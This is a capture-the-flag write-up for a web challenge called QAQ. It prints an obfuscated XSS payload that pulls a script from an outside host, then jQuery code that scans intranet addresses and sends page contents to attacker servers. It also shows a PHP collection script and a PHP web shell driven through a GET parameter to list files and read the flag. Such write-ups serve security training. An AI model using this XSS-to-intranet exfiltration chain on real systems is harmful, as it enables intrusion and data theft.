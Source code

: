 # Writeup for QAQ (WEB) (350)

> Solves: 16

> web

> http://104.199.132.251:80

> hint1: What else can XSS do? Just steal cookies? Secret in intranet，hack harder guys!

> hint2: CORS headers
  
We had a web interface:

![Screenshot_1.png](Screenshot_1.png)

After submit form, had summary, so we could test XSS prevention bypass, by us (this alert was not xss, was native in response):

![Screenshot_2.png](Screenshot_2.png)

Our XSS Payload: 

```
<iframe onload='
    var sc   = document.createElement("scr" + "ipt");
    sc.type  = "text/javascr" + "ipt";
    sc.src   = "http://1.2.3.4/js/hook.js";
    document.body.appendChild(sc);
    '
/>
```

XSS successfully append code to body:
```
<script type="text/javascript" src="http://1.2.3.4/js/hook.js"></script>
```
So we could execute any unrestricted javascript code, from our external server.

On first we execute [hook.js](hook.js) from BeEF source.

Hint `Secret in intranet` prompted us to scan hosts in BeEF, results was:

```
127.0.0.1       localhost       Linux
172.17.0.1                      Linux 
192.168.1.3                     Linux
```

After that we checked IP nearest to founded hosts

Injected JS code (only replaced code in hook.js in our server, XSS payload was same)
```
(LONG INLINE JQUERY SOURCE)

jQuery.get( "http://192.168.1.1", function( data ) {
    jQuery.post( "http://1.2.3.4/app_dev.php", { x: "192.168.1.1"} );
});
jQuery.get( "http://192.168.1.2", function( data ) {
    jQuery.post( "http://1.2.3.4/app_dev.php", { x: "192.168.1.2"} );
});
jQuery.get( "http://192.168.1.3", function( data ) {
    jQuery.post( "http://1.2.3.4/app_dev.php", { x: "192.168.1.3"} );
});
jQuery.get( "http://192.168.1.4", function( data ) {
    jQuery.post( "http://1.2.3.4/app_dev.php", { x: "192.168.1.4"} );
});
jQuery.get( "http://192.168.1.5", function( data ) {
    jQuery.post( "http://1.2.3.4/app_dev.php", { x: "192.168.1.5"} );
});
jQuery.get( "http://172.17.0.1", function( data ) {
    jQuery.post( "http://1.2.3.4/app_dev.php", { x: "172.17.0.1"} );
});
jQuery.get( "http://172.17.0.2", function( data ) {
    jQuery.post( "http://1.2.3.4/app_dev.php", { x: "172.17.0.2"} );
});
jQuery.get( "http://172.17.0.3", function( data ) {
    jQuery.post( "http://1.2.3.4/app_dev.php", { x: "172.17.0.3"} );
});
jQuery.get( "http://172.17.0.4", function( data ) {
    jQuery.post( "http://1.2.3.4/app_dev.php", { x: "172.17.0.4"} );
});
jQuery.get( "http://172.17.0.5", function( data ) {
    jQuery.post( "http://1.2.3.4/app_dev.php", { x: "172.17.0.5"} );
});
```

Source of server script observer code (http://1.2.3.4/app_dev.php):
```
<?php

$file = fopen("file.txt", "a");
fwrite($file, "\n\n\n". $_POST['x']);
fclose($myfile);
```


We had response from `172.17.0.2` that looked promising. Next step was checked what was there.

Changed hook.js again, for:
```
(LONG INLINE JQUERY SOURCE)

jQuery.get( "http://172.17.0.2", function( data ) {
    jQuery.post( "http://37.59.36.155/app_dev.php", { x: data} );
});
```

gave us response:

```
<html>
<body>
=.=
webdog
webshell
=.=
<!--
header("Access-Control-Allow-Origin: *");

$ztz= 'system';
ob_start($ztz);
echo $_GET[c];
ob_end_flush();

or

$ztz = new ReflectionFunction("system");
echo $ztz->invokeArgs(array("$_GET[c]"));
-->
</body>
</html>
```

Looked nice. We had php shell from `$_GET[c]`

Changed hook.js again, for:
```
(LONG INLINE JQUERY SOURCE)

jQuery.get( "http://172.17.0.2/?c=ls", function( data ) {
    jQuery.post( "http://37.59.36.155/app_dev.php", { x: data} );
});
```

gave us response:
```
fl4g
index.php
index.php
```

And finally:
```
(LONG INLINE JQUERY SOURCE)

jQuery.get( "http://172.17.0.2/?c=cat fl4g", function( data ) {
    jQuery.post( "http://37.59.36.155/app_dev.php", { x: data} );
});
```


returned flag
